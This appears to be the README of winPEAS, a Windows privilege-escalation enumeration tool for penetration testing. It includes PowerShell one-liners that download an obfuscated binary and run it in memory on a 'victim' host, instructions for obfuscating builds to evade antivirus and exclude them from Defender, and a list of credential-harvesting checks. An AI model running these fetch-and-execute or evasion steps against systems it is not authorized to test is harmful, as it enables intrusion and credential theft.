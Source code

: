 # Windows Privilege Escalation Awesome Script (.exe)

![](https://github.com/khulnasoft/pass-ng/raw/master/winPEAS/winPEASexe/images/winpeas.png)

**WinPEAS is a script that search for possible paths to escalate privileges on Windows hosts. The checks are explained on [book.khulnasoft.com](https://book.khulnasoft.com/windows-hardening/windows-local-privilege-escalation)**

Check also the **Local Windows Privilege Escalation checklist** from **[book.khulnasoft.com](https://book.khulnasoft.com/windows-hardening/checklist-windows-privilege-escalation)**

[![youtube](https://github.com/khulnasoft/pass-ng/raw/master/winPEAS/winPEASexe/images/screen.png)](https://youtu.be/66gOwXMnxRI)

## Quick Start

**.Net >= 4.5.2 is required**

Precompiled binaries:
- Download the **[latest obfuscated and not obfuscated versions from here](https://github.com/khulnasoft/PASS-ng/releases/latest)** or **compile it yourself** (read instructions for compilation).

```bash
# Get latest release
$url = "https://github.com/khulnasoft/PASS-ng/releases/latest/download/winPEASany_ofs.exe"

# One liner to download and execute winPEASany from memory in a PS shell
$wp=[System.Reflection.Assembly]::Load([byte[]](Invoke-WebRequest "$url" -UseBasicParsing | Select-Object -ExpandProperty Content)); [winPEAS.Program]::Main("")

# Before cmd in 3 lines
$wp=[System.Reflection.Assembly]::Load([byte[]](Invoke-WebRequest "$url" -UseBasicParsing | Select-Object -ExpandProperty Content));
[winPEAS.Program]::Main("") #Put inside the quotes the winpeas parameters you want to use

# Load from disk in memory and execute:
$wp = [System.Reflection.Assembly]::Load([byte[]]([IO.File]::ReadAllBytes("D:\Users\victim\winPEAS.exe")));
[winPEAS.Program]::Main("") #Put inside the quotes the winpeas parameters you want to use

# Load from disk in base64 and execute
##Generate winpeas in Base64:
[Convert]::ToBase64String([IO.File]::ReadAllBytes("D:\Users\user\winPEAS.exe")) | Out-File -Encoding ASCII D:\Users\user\winPEAS.txt
##Now upload the B64 string to the victim inside a file or copy it to the clipboard

 ##If you have uploaded the B64 as afile load it with:
$thecontent = Get-Content -Path D:\Users\victim\winPEAS.txt
 ##If you have copied the B64 to the clipboard do:
$thecontent = "aaaaaaaa..." #Where "aaa..." is the winpeas base64 string
##Finally, load binary in memory and execute
$wp = [System.Reflection.Assembly]::Load([Convert]::FromBase64String($thecontent))
[winPEAS.Program]::Main("") #Put inside the quotes the winpeas parameters you want to use

# Loading from file and executing a winpeas obfuscated version
##Load obfuscated version
$wp = [System.Reflection.Assembly]::Load([byte[]]([IO.File]::ReadAllBytes("D:\Users\victim\winPEAS-Obfuscated.exe")));
$wp.EntryPoint #Get the name of the ReflectedType, in obfuscated versions sometimes this is different from "winPEAS.Program"
[<ReflectedType_from_before>]::Main("") #Used the ReflectedType name to execute winpeas
```

## Parameters Examples

```bash
winpeas.exe -h # Get Help
winpeas.exe #run all checks (except for additional slower checks - LOLBAS and linpeas.sh in WSL) (noisy - CTFs)
winpeas.exe systeminfo userinfo #Only systeminfo and userinfo checks executed
winpeas.exe notcolor #Do not color the output
winpeas.exe domain #enumerate also domain information
winpeas.exe wait #wait for user input between tests
winpeas.exe debug #display additional debug information
winpeas.exe log #log output to out.txt instead of standard output
winpeas.exe -linpeas=http://127.0.0.1/linpeas.sh #Execute also additional linpeas check (runs linpeas.sh in default WSL distribution) with custom linpeas.sh URL (if not provided, the default URL is: https://raw.githubusercontent.com/khulnasoft/pass-ng/master/linPEAS/linpeas.sh)
winpeas.exe -lolbas  #Execute also additional LOLBAS search check
```

## Basic information

The goal of this project is to search for possible **Privilege Escalation Paths** in Windows environments.

It should take only a **few seconds** to execute almost all the checks and **some seconds/minutes during the lasts checks searching for known filenames** that could contain passwords (the time depened on the number of files in your home folder). By default only **some** filenames that could contain credentials are searched, you can use the **searchall** parameter to search all the list (this could will add some minutes).

The tool is based on **[SeatBelt](https://github.com/GhostPack/Seatbelt)**.

## Where are my COLORS?!?!?!

The **ouput will be colored** using **ansi** colors. If you are executing `winpeas.exe` **from a Windows console**, you need to set a registry value to see the colors (and open a new CMD):
```
REG ADD HKCU\Console /v VirtualTerminalLevel /t REG_DWORD /d 1
```

Below you have some indications about what does each color means exacty, but keep in mind that **Red** is for something interesting (from a pentester perspective) and **Green** is something well configured (from a defender perspective).

![](https://github.com/khulnasoft/pass-ng/raw/master/winPEAS/winPEASexe/images/colors.png)

## Instructions to compile you own obfuscated version

<details>
  <summary>Details</summary>

In order to compile an **ofuscated version** of Winpeas and bypass some AVs you need to ** install dotfuscator ** in *VisualStudio*.

To install it *open VisualStudio --> Go to Search (CTRL+Q) --> Write "dotfuscator"* and just follow the instructions to install it.

To use **dotfuscator** you will need to **create an account** *(they will send you an email to the address you set during registration*).

Once you have installed and activated it you need to:
1. **Compile** winpeas in VisualStudio
2. **Open dotfuscator** app
3. **Open** in dotfuscator **winPEAS.exe compiled**
4. Click on **Build**
5. The **single, minimized and obfuscated binary** will appear in a **folder called Dotfuscator inside the folder were winPEAS.exe** and the DLL were (this location will be saved by dotfuscator and by default all the following builds will appear in this folder).

**I'm sorry that all of this is necessary but is worth it. Dotfuscator minimizes a bit the size of the executable and obfuscates the code**.

![](https://raw.githubusercontent.com/khulnasoft/pass-ng/master/winPEAS/winPEASexe/images/dotfuscator.PNG)

**IMPORTANT**: Note that Defender will higly probable delete the winpeas iintial unobfuscated version, so you need to set as expections the origin folder of Winpeas and the folder were the obfuscated version will be saved:
![](https://user-images.githubusercontent.com/1741662/148418852-e7ffee6a-c270-4e26-bf38-bb8977b3ad9c.png)
</details>

## Checks

<details>
  <summary>Details</summary>

- **System Information**
  - [x] Basic System info information
  - [x] Use Watson to search for vulnerabilities
  - [x] Enumerate Microsoft updates
  - [x] PS, Audit, WEF and LAPS Settings
  - [x] LSA protection
  - [x] Credential Guard
  - [x] WDigest
  - [x] Number of cached cred
  - [x] Environment Variables
  - [x] Internet Settings
  - [x] Current drives information
  - [x] AV
  - [x] Windows Defender
  - [x] UAC configuration
  - [x] NTLM Settings
  - [x] Local Group Policy
  - [x] Applocker Configuration & bypass suggestions
  - [x] Printers
  - [x] Named Pipes
  - [x] AMSI Providers
  - [x] SysMon
  - [x] .NET Versions

- **Users Information**
  - [x] Users information
  - [x] Current token privileges
  - [x] Clipboard text
  - [x] Current logged users
  - [x] RDP sessions
  - [x] Ever logged users
  - [x] Autologin credentials
  - [x] Home folders
  - [x] Password policies
  - [x] Local User details
  - [x] Logon Sessions

- **Processes Information**
  - [x] Interesting processes (non Microsoft)

- **Services Information**
  - [x] Interesting services (non Microsoft) information
  - [x] Modifiable services
  - [x] Writable service registry binpath
  - [x] PATH Dll Hijacking

- **Applications Information**
  - [x] Current Active Window
  - [x] Installed software
  - [x] AutoRuns
  - [x] Scheduled tasks
  - [x] Device drivers

- **Network Information**
  - [x] Current net shares
  - [x] Mapped drives (WMI)
  - [x] hosts file
  - [x] Network Interfaces
  - [x] Listening ports
  - [x] Firewall rules
  - [x] DNS Cache (limit 70)
  - [x] Internet Settings

- **Windows Credentials**
  - [x] Windows Vault
  - [x] Credential Manager
  - [x] Saved RDP settings
  - [x] Recently run commands
  - [x] Default PS transcripts files
  - [x] DPAPI Masterkeys
  - [x] DPAPI Credential files
  - [x] Remote Desktop Connection Manager credentials
  - [x] Kerberos Tickets
  - [x] Wifi
  - [x] AppCmd.exe
  - [x] SSClient.exe
  - [x] SCCM
  - [x] Security Package Credentials
  - [x] AlwaysInstallElevated
  - [x] WSUS

- **Browser Information**
  - [x] Firefox DBs
  - [x] Credentials in firefox history
  - [x] Chrome DBs
  - [x] Credentials in chrome history
  - [x] Current IE tabs
  - [x] Credentials in IE history
  - [x] IE Favorites
  - [x] Extracting saved passwords for: Firefox, Chrome, Opera, Brave

- **Interesting Files and registry**
  - [x] Putty sessions
  - [x] Putty SSH host keys
  - [x] SuperPutty info
  - [x] Office365 endpoints synced by OneDrive
  - [x] SSH Keys inside registry
  - [x] Cloud credentials
  - [x] Check for unattended files
  - [x] Check for SAM & SYSTEM backups
  - [x] Check for cached GPP Passwords
  - [x] Check for and extract creds from McAffe SiteList.xml files
  - [x] Possible registries with credentials
  - [x] Possible credentials files in users homes
  - [x] Possible password files inside the Recycle bin
  - [x] Possible files containing credentials (this take some minutes)
  - [x] User documents (limit 100)
  - [x] Oracle SQL Developer config files check
  - [x] Slack files search
  - [x] Outlook downloads
  - [x] Machine and user certificate files
  - [x] Office most recent documents
  - [x] Hidden files and folders
  - [x] Executable files in non-default folders with write permissions
  - [x] WSL check

- **Events Information**
  - [x] Logon + Explicit Logon Events
  - [x] Process Creation Events
  - [x] PowerShell Events
  - [x] Power On/Off Events

- **Additional (slower) checks**
  - [x] LOLBAS search
  - [x] run **[linpeas.sh](https://raw.githubusercontent.com/khulnasoft/pass-ng/master/linPEAS/linpeas.sh)** in default WSL distribution

</details>

## TODO
- Add more checks
- Mantain updated Watson (last JAN 2021)

If you want to help with any of this, you can do it using **[github issues](https://github.com/khulnasoft/pass-ng/issues)** or you can submit a pull request.

If you find any issue, please report it using **[github issues](https://github.com/khulnasoft/pass-ng/issues)**.

**WinPEAS** is being **updated** every time I find something that could be useful to escalate privileges.

## Advisory

All the scripts/binaries of the PEAS Suite should be used for authorized penetration testing and/or educational purposes only. Any misuse of this software will not be the responsibility of the author or of any other collaborator. Use it at your own networks and/or with the network owner's permission.


By Polop

